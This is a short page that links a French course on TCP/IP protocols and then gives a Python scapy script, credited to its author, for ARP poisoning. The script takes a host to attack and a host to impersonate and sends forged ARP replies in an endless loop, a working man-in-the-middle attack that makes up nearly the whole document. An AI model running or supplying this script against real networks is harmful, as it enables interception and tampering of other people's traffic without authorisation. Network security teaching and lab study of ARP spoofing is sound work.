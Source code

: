 https://openclassrooms.com/fr/courses/857447-apprenez-le-fonctionnement-des-reseaux-tcp-ip/855044-les-autres-protocoles


``` powershell
#!/usr/bin/python

# Python arp poison example script
# Written by aviran
# visit for more details aviran.org

from scapy.all import *
import sys

def get_mac_address():
    my_macs = [get_if_hwaddr(i) for i in get_if_list()]
    for mac in my_macs:
        if(mac != "00:00:00:00:00:00"):
            return mac
Timeout=2

if len(sys.argv) != 3:
    print "Usage: arp_poison.py HOST_TO_ATTACK HOST_TO_IMPERSONATE"
    sys.exit(1)

my_mac = get_mac_address()
if not my_mac:
    print "Cant get local mac address, quitting"
    sys.exit(1)

packet = Ether()/ARP(op="who-has",hwsrc=my_mac,psrc=sys.argv[2],pdst=sys.argv[1])

sendp(packet, loop=1, inter=0.2)
```